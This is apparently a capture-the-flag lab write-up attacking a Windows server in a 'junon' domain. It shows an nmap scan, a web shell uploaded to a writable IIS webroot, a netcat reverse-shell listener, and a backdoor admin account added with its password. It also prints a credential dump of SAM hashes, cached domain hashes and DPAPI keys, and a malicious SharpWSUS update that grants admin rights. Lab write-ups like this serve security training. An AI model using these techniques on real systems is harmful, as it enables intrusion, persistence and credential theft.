




# Initial Enumeration

As usual I will perform a full enumeration of all the TCP ports and I know this one of the members of the VDI server pool:

```bash
PORT      STATE SERVICE       REASON         VERSION
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 64
3387/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WORK-JUNON
|   NetBIOS_Domain_Name: WORK-JUNON
|   NetBIOS_Computer_Name: S021M010
|   DNS_Domain_Name: work.junon.vl
|   DNS_Computer_Name: S021M010.work.junon.vl
|   DNS_Tree_Name: work.junon.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-30T08:01:49+00:00
|_ssl-date: 2026-03-30T08:02:27+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=S021M010.work.junon.vl
| Issuer: commonName=S021M010.work.junon.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-29T03:59:57
| Not valid after:  2026-09-28T03:59:57
| MD5:     eaf0 8468 1277 44e8 e1de 0e26 2ee1 2651
| SHA-1:   77a2 2e53 b582 0562 f66c 3379 fc3e f4db 1d8c 2054
| SHA-256: 29dc ac7c b095 e987 8ce7 2dc8 fb91 12f9 f27c d413 e9b5 b335 eb60 8715 905c d02a
| -----BEGIN CERTIFICATE-----
| MIIC8DCCAdigAwIBAgIQHZ6Ax6I4WI9B7k+KKX9XNTANBgkqhkiG9w0BAQsFADAh
| MR8wHQYDVQQDExZTMDIxTTAxMC53b3JrLmp1bm9uLnZsMB4XDTI2MDMyOTAzNTk1
| N1oXDTI2MDkyODAzNTk1N1owITEfMB0GA1UEAxMWUzAyMU0wMTAud29yay5qdW5v
| bi52bDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMrkXzjJTqQB5cf5
| nFBdO59yqbFxWvxgUjPUiuFkxxAaN7NGUygDG+n5uOoTDgpOF0HxEg6wdPrCopU9
| Cq+S01rPP1g4f8RvK9b7tYeRQDR79Kuz7DocBrn3iUpeX/t0nkIxQs2+a0Bh+vSj
| KtKHoys9ClufxJrvwZPmGq40SdV1A9v6ZZ4kkREy/LNgVmzk/0bTdzPBEvZaYsOZ
| OgU2aJnOTxhR3iiwi6crkKRfo0vqUYPYud6gsEzSI5NhLa6qpx7hkcXwcfofLWfa
| AEcvmdKhxgZ6RqiyVVtN+dEgFUs6SNa25uza8sT6V4dz1QJ4k++eL5rtsEvQdBAh
| O2pbQykCAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQw
| MA0GCSqGSIb3DQEBCwUAA4IBAQAUkev8Ai+O2tpmJmDmkeS47Vrg+EA91hR2Znlw
| t+p1PYaHxNRqwhH6GbZyJAI4Uf0zYtbgDXm1vCd9gBOZIU4c56CtQqlHwO7n2YVf
| MQk8LjyQvS1nJ++53KSj0LWnBBWFahHzy3+jBzFOXM49C1BnyHwBfIHZhJnc1tAw
| JMGjXrDfTJfkmPwmE9ZFZ/Xfq7BCIlndkK74OY/3PsmST060b6Cz8wOU9qI+YDXA
| /5K3vvmH+UzHWMFRfOv5Vf9odMbhR+n9tqqlxAShwISGLk6PMOi6/V5so98U5Irr
| JGXSjBkhF1HQfgYb2iFCR5mgVOWvhm5n6hsT/mjglugYeYOB
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49680/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49719/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/30%OT=80%CT=%CU=%PV=Y%G=N%TM=69CA2E12%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=108%GCD=1%ISR=10D%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 45.921 days (since Thu Feb 12 10:55:33 2026)
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: S021M010, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:d0:cb (VMware)
| Names:
|   S021M010<00>         Flags: <unique><active>
|   WORK-JUNON<00>       Flags: <group><active>
|   S021M010<20>         Flags: <unique><active>
| Statistics:
|   00 50 56 94 d0 cb 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 6285/tcp): CLEAN (Timeout)
|   Check 2 (port 61195/tcp): CLEAN (Timeout)
|   Check 3 (port 51817/udp): CLEAN (Timeout)
|   Check 4 (port 38008/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-03-30T08:01:47
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT      ADDRESS
1   20.58 ms 172.16.21.180


```

# IIS

Here I noticed that users like mine(part of the IT group) can write on the IIS page?

```bash
PS C:\inetpub\wwwroot> echo "test" > test.txt
PS C:\inetpub\wwwroot> ls


    Directory: C:\inetpub\wwwroot


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          4/8/2023  12:34 AM                aspnet_client
-a----         3/18/2023   3:15 AM            703 iisstart.htm
-a----         3/18/2023   3:15 AM          99710 iisstart.png
-a----         3/27/2026   7:07 AM             14 test.txt


PS C:\inetpub\wwwroot>

```

The reason is because all domain users has full privileges here:



And I have a shell uploaded:

```bash
PS C:\inetpub\wwwroot> ls


    Directory: C:\inetpub\wwwroot


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          4/8/2023  12:34 AM                aspnet_client
-a----         3/18/2023   3:15 AM            703 iisstart.htm
-a----         3/18/2023   3:15 AM          99710 iisstart.png
-a----         3/27/2026   7:43 AM           1442 webshell.aspx


PS C:\inetpub\wwwroot>
```

And it works baby!



# Road to Admin

Now I need to upload Sigma to get a shell!



And now I can basically do what i want!

```bash
─$ nc -lnvp 4444               
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.110.3] 57423

wPS C:\windows\system32\inetsrv> whoami 

PS C:\windows\system32\inetsrv> PS C:\windows\system32\inetsrv> whoami
nt authority\system
PS C:\windows\system32\inetsrv> net user yovecio Coglione1! /add
The command completed successfully.

PS C:\windows\system32\inetsrv> net localgroup administrators yovecio /addd
PS C:\windows\system32\inetsrv> 
```

And get another flag:

```bash
PS C:\users\administrator\desktop> dir


    Directory: C:\users\administrator\desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         5/22/2025   7:11 PM             39 flag.txt                                                             


PS C:\users\administrator\desktop> cat flag.txt
WUTAI{738add38d1f3dd4c4af8e7c9b1f7c98a}
PS C:\users\administrator\desktop> 
```

And some secrets which did not help at all:

```bash
└─$ proxychains netexec smb 172.16.21.180 -u yovecio -p 'Coglione1!' --local-auth --sam --lsa --dpapi 2>/dev/null
SMB         172.16.21.180   445    S021M010         [*] Windows Server 2022 Build 20348 x64 (name:S021M010) (domain:S021M010) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.180   445    S021M010         [+] S021M010\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.21.180   445    S021M010         [*] Dumping SAM hashes
SMB         172.16.21.180   445    S021M010         Administrator:500:aad3b435b51404eeaad3b435b51404ee:0ed06585f22fcbfd9e2c2500b84263d9:::
SMB         172.16.21.180   445    S021M010         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.21.180   445    S021M010         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.21.180   445    S021M010         WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:81887874100e95ffab05dcfbe8fd9229:::
SMB         172.16.21.180   445    S021M010         yovecio:1000:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
SMB         172.16.21.180   445    S021M010         [+] Added 5 SAM hashes to the database
SMB         172.16.21.180   445    S021M010         [+] Dumping LSA secrets
SMB         172.16.21.180   445    S021M010         WORK.JUNON.VL/vdi_user:$DCC2$10240#vdi_user#5503c57f45503088dee5060765ef2299: (2023-03-31 16:24:07)
SMB         172.16.21.180   445    S021M010         WORK.JUNON.VL/Administrator:$DCC2$10240#Administrator#1bedef2bf1e9355c3f33175b3f9ff9dc: (2025-05-29 04:58:03)
SMB         172.16.21.180   445    S021M010         WORK.JUNON.VL/Terry.Lowe:$DCC2$10240#Terry.Lowe#0feafe9a5972b2e34569938c68c25839: (2026-03-27 09:08:09)
SMB         172.16.21.180   445    S021M010         WORK.JUNON.VL/melanie.mueller:$DCC2$10240#melanie.mueller#b5c638b653e42a212f355422b26b50b5: (2024-03-04 08:50:09)
SMB         172.16.21.180   445    S021M010         WORK.JUNON.VL/Wendy.Vincent:$DCC2$10240#Wendy.Vincent#01de5e9f946afe5b4cfa900d4eaba904: (2025-05-29 05:04:15)
SMB         172.16.21.180   445    S021M010         WORK.JUNON.VL/Wendy.Vincent:$DCC2$10240#Wendy.Vincent#01de5e9f946afe5b4cfa900d4eaba904: (2025-10-20 13:27:50)
SMB         172.16.21.180   445    S021M010         WORK.JUNON.VL/dom-fstewart:$DCC2$10240#dom-fstewart#fe98e5ba5b0799ad8165d5f30986f2c4: (2026-03-27 12:03:47)
SMB         172.16.21.180   445    S021M010         WORK.JUNON.VL/Roger.Ball:$DCC2$10240#Roger.Ball#921c7e374bed2c6b7ea223fbbd07be5c: (2026-03-27 14:37:26)
SMB         172.16.21.180   445    S021M010         WORK-JUNON\S021M010$:aes256-cts-hmac-sha1-96:4136d735c1e94f09755bc0c470a1dd9de2bd6f7fa7e874a35cfda22a92308796
SMB         172.16.21.180   445    S021M010         WORK-JUNON\S021M010$:aes128-cts-hmac-sha1-96:5b9ff410a8dc9dcadf699f6afe189310
SMB         172.16.21.180   445    S021M010         WORK-JUNON\S021M010$:des-cbc-md5:85f40b752c9efdf4
SMB         172.16.21.180   445    S021M010         WORK-JUNON\S021M010$:plain_password_hex:1ac2873397743ec853691ab2b2305a7fa7874be406aee44d03c40de8f1cf87526dd471d65be3039a0a7f8a847107c20358ee035ed0814da4ee29278e5f41f1ed2cbc53d0720c7c96afb6c3e9d69bdf3bf632098a59358571441ac3248f1103beb628ce2203db770b3b939a29ddcc4f8eabe7e4d3e1d323796a287aa1126f089e840fab811b3f4168a47cf94fe45003acd040ec5db88c0825b26e763e8e0c3e6bf6f7ed99f61255b86420a4b40212247f213a23685c89e1fd3113bec1a6bfd5d93784df65ec3cc15adf69ce45d06cb5d8b007121c30e6d1a37f9bbf1dc2a315b273bb69613ad83c684540fde0bc21a11d
SMB         172.16.21.180   445    S021M010         WORK-JUNON\S021M010$:aad3b435b51404eeaad3b435b51404ee:4152e706612736deea71c23dafa2580c:::
SMB         172.16.21.180   445    S021M010         dpapi_machinekey:0x244caea6ad10ab8aec3fb502ee00270b113ef0fa
dpapi_userkey:0xdea5d91c1c4b5d79d0538f9cc37bdb48c82e61e4
SMB         172.16.21.180   445    S021M010         [+] Dumped 14 LSA secrets to /home/user/.nxc/logs/lsa/172.16.21.180_None_2026-03-27_155807.secrets and /home/user/.nxc/logs/lsa/172.16.21.180_None_2026-03-27_155807.cached
SMB         172.16.21.180   445    S021M010         [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.21.180   445    S021M010         [+] Got 12 decrypted masterkeys. Looting secrets...
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]

```

I feel confident I can move on for now to the custom binary.

# Altenative: WSUS

Now I will add my svc_me user (which is admin on the WSUS server) as admin of the WSUS, this is before the change:  


Now here I had to run it with the local admin instead:

```
evil-winrm-py PS C:\Temp> .\SharpWSUS.exe inspect

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Inspect WSUS Server

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
S021M015, 8530, C:\WSUS\WsusContent


####################### Computer Enumeration #######################
ComputerName, IPAddress, OSVersion, LastCheckInTime
---------------------------------------------------
s021m010.work.junon.vl, 172.16.21.180, 10.0.20348.1607, 12/25/2023 3:15:05 PM

####################### Downstream Server Enumeration #######################
ComputerName, OSVersion, LastCheckInTime
---------------------------------------------------

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
Unassigned Computers

[*] Inspect complete

evil-winrm-py PS C:\Temp>
```

Now I pushed a new malicous package that will add my domain user(yovecio) to local Admin group on all the machines in  WSUS(so far only the DC):

```
evil-winrm-py PS C:\temp> .\SharpWSUS.exe create /payload:"C:\Tools\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup Administrators yovecio /ad
d" /title:"NewAccountUpdate"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PSExec64.exe
[*] Payload Path: C:\Tools\PSExec64.exe
[*] Arguments: -accepteula -s -d cmd.exe /c net localgroup Administrators yovecio /add
[*] Arguments (HTML Encoded): -accepteula -s -d cmd.exe /c net localgroup Administrators yovecio /add

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
S021M015, 8530, C:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 200798
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 200799
PrepareXMLBundletoClient
DeploymentRevision

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:201d5769-d919-4c1c-8be3-58a02db2897f /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:201d5769-d919-4c1c-8be3-58a02db2897f /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:201d5769-d919-4c1c-8be3-58a02db2897f /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete

evil-winrm-py PS C:\temp>
```

but wait I see now this is  only for the  .180 machine and not the DC... But now I have approved the update:

```bash
vil-winrm-py PS C:\temp> ./SharpWSUS.exe approve /updateid:201d5769-d919-4c1c-8be3-58a02db2897f /computername:s021m010.work.junon.vl /groupname:"All Computers
"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting s021m010.work.junon.vl
TargetComputer, ComputerID, TargetID
------------------------------------
s021m010.work.junon.vl, b7094941-4e2c-42a8-9c59-38368f2ef9b8, 1
Group Exists = True
Added Computer To Group
Approved Update

[*] Approve complete

```

Unfortunately the server is extremetly slow, for this reasoni wll abbandon this path.

&nbsp;